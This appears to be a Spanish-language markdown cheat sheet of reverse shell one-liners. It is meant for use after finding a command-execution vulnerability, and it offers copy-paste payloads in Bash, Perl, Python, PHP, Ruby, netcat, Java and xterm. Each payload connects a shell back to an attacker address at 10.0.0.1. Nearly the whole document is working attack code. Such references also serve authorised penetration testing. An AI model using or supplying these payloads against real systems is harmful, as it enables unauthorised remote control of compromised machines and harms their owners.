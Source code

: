 # Reverse Shells
Si tiene la suerte de encontrar una vulnerabilidad de ejecución de comandos, probablemente querrán un shell interactiva.
Cada uno de los métodos son de una sola línea que puede copiar / pegar.
* [Bash](#bash)
* [PERL](#perl)
* [Python](#python)
* [PHP](#php)
* [Ruby](#ruby)
* [Netcat](#netcat)
* [Java](#java)
* [xterm](#xterm)
## Bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
## PERL
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```
## Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
## PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
## Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Netcat
```
nc -e /bin/sh 10.0.0.1 1234
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## xterm
```
xterm -display 10.0.0.1:1
```
```
Xnest :1
```
```
xhost +targetip
```
## References
* [All Shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
